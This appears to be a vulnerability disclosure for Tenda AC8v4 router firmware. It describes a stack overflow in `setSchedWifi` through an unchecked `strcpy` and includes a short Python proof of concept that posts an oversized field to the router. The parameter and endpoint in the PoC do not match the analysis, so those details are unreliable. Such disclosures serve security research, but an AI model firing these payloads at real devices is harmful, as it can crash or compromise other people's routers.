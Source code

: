 # Tenda AC8v4 V16.03.34.06

## Overview

- Firmware download website: https://www.tenda.com.cn/material/show/103518

## Affected version

V16.03.34.06

## Vulnerability details

The Tenda AC8v4 V16.03.34.06 firmware has a stack overflow vulnerability in the `setSchedWifi` function. The `src` variable receives the `schedStartTime` parameter from a POST request and is later assigned to the `ptr+2` variable, which is fixed at 25 bytes. However, since the user can control the input of  `schedStartTime`, the statement `strcpy((char *)ptr + 2, src);` can cause a buffer overflow. The user-provided  `schedStartTime` can exceed the capacity of the `dest` array, triggering this security vulnerability.

![1735650491449](F:\Desktop\工具\二进制漏洞\IoT\img\1735650491449.png)

![1735650523496](F:\Desktop\工具\二进制漏洞\IoT\img\1735650523496.png)

![1735650546634](F:\Desktop\工具\二进制漏洞\IoT\img\1735650546634.png)

## POC

```python
import requests

url = "http://192.168.1.100/goform/openSchedWifi"
data = {
        "schedEndTime":b'A'*1000
}
requests.post(url=url,data=data)
```

![1735650674572](F:\Desktop\工具\二进制漏洞\IoT\img\1735650674572.png)

